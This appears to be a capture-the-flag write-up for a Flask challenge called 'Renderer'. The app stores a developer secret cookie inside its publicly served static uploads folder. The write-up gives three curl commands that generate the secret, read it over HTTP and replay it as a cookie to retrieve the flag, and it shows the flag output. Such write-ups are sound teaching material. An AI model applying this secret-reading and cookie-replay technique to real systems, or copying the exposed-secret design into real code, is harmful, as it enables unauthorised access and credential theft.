 # Renderer

A flask application with source code provided:

```python
from flask import Flask, request, redirect, render_template, make_response, url_for
app = Flask(__name__)
from hashlib import sha256
import os
def allowed(name):
    if name.split('.')[1] in ['jpg','jpeg','png','svg']:
        return True
    return False

@app.route('/',methods=['GET','POST'])
def upload():
    if request.method == 'POST':
        if 'file' not in request.files:
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            return redirect(request.url)
        if file and allowed(file.filename):
            filename = file.filename
            hash = sha256(os.urandom(32)).hexdigest()
            filepath = f'./static/uploads/{hash}.{filename.split(".")[1]}'
            file.save(filepath)
            return redirect(f'/render/{hash}.{filename.split(".")[1]}')
    return render_template('upload.html')

@app.route('/render/<path:filename>')
def render(filename):
    return render_template('display.html', filename=filename)

@app.route('/developer')
def developer():
    cookie = request.cookies.get("developer_secret_cookie")
    correct = open('./static/uploads/secrets/secret_cookie.txt').read()
    if correct == '':
        c = open('./static/uploads/secrets/secret_cookie.txt','w')
        c.write(sha256(os.urandom(16)).hexdigest())
        c.close()
    correct = open('./static/uploads/secrets/secret_cookie.txt').read()
    if cookie == correct:
        c = open('./static/uploads/secrets/secret_cookie.txt','w')
        c.write(sha256(os.urandom(16)).hexdigest())
        c.close()
        return f"Welcome! There is currently 1 unread message: {open('flag.txt').read()}"
    else:
        return "You are not a developer!"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

We can access `/static/uploads/secrets/secret_cookie.txt` via HTTP directly. To get flag:

1. `curl http://play.scriptsorcerers.xyz:10465/developer` to trigger secret generation
2. `curl http://play.scriptsorcerers.xyz:10465/static/uploads/secrets/secret_cookie.txt` to read the secret cookie out
3. `curl http://play.scriptsorcerers.xyz:10465/developer -H "Cookie: developer_secret_cookie=b7dc8c2ea0f63b04e63e89d8b3266d02150e32432c071a9cd005ad97e725dd05"` to read the flag using the secret cookie

Get flag:

```
Welcome! There is currently 1 unread message: scriptCTF{my_c00k135_4r3_n0t_s4f3!_f852b14dc179}`
```
